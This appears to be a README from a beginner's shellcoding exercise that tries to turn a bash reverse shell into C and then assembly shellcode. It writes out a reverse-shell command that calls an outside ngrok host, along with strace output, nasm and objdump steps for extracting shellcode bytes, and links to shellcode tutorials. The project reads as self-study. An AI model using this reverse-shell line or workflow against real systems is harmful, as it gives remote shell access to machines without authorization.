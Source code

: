 # shell-noob
I'm a shell noob, so nothing exciting here.

I'm also new to asm and C, but hey, I'm sure I've done tricker stuff before (famous last words).

## The command

```
/bin/bash -c "/bin/bash -i >& /dev/tcp/0.tcp.ngrok.io/12345 0>&1"
```

## Building

gcc ./shell-code.c -o ./bin/shellcode

## The runner

It seems that many shellcode tutorials use a common program template or husk to run the shellcode / bytearray.

I've included this in `templates/`.


## Findings

may not be possible to bind to /dev/tcp/x [1], as this is being done with some magic bash...

I might be able to fix this [3] by using execvp instead, just a wrapper for exec.

And it worked - reverse shell!

### Getting to assembly from C
Now I need to convert this to asm, so as per [2] I used `strace`;

```
strace -e execve ./bin/shellcode                      
execve("./bin/shellcode", ["./bin/shellcode"], [/* 120 vars */]) = 0
execve("/bin/bash", ["/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/0.tcp.e"...], [/* 120 vars */]) = 0
/bin/bash: connect: Connection refused
/bin/bash: /dev/tcp/0.tcp.ngrok.io/12345: Connection refused
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=19295, si_uid=1000, si_status=1, si_utime=0, si_stime=0} ---
```
I can't see this working for me just yet...


Looking back at the original tutorial and code [4], I'm thinking I could do the same with my custom line, and just call execve.

Now I attempt to compile with the nasm utility;

```
nasm -felf32 -o ./bin/shell-code.o ./shell-code.asm
```
Unfortunately this didn't run, there must be errors...

I'm using zsh so the original example threw me out a little, I made a quick fix...
```
for i in $(objdump -d ./bin/shell-code.o -M intel |grep "^ " |cut -f2); do echo -n '\\x'$i; done; echo
```

Followed a SO, so going to try this... 
```
gcc -S input.c -o output.asm -masm=intel
```
Nope, did not work for me - [5] there are fundamental differences between NASM and TASM.





[1] https://stackoverflow.com/questions/44914538/execute-reverse-shell-using-execve
[2] http://www.arti-sec.com/article/create-shellcode-tcp-reverse-shell-slae
[3] https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp
[4] https://gist.githubusercontent.com/Morgawr/9852347/raw/37fafdbfab6684d4fb374c826a2c1bc628cbe2b0/netcat-shellcode.asm
[5] https://stackoverflow.com/questions/8406188/does-gcc-really-know-how-to-output-nasm-assembly
## Resources

Some good resources for beginning this.

The original post that got me thinking;
https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat

### Introductions to shellcoding
http://hackerforhire.com.au/part-1-disassembling-and-understanding-shellcode/
https://en.wikipedia.org/wiki/Shellcode
http://www.enderunix.org/docs/en/sc-en.txt
http://www.vividmachines.com/shellcode/shellcode.html

### Dealing with bash -c
https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp

### Reversing shellcode to assembly
https://xorl.wordpress.com/2009/01/04/from-shellcode-to-assembly/
https://zeltser.com/convert-shellcode-to-assembly/
https://haiderm.com/convert-hex-assembly-using-simple-python-script/

### Tools
https://github.com/reyammer/shellnoob

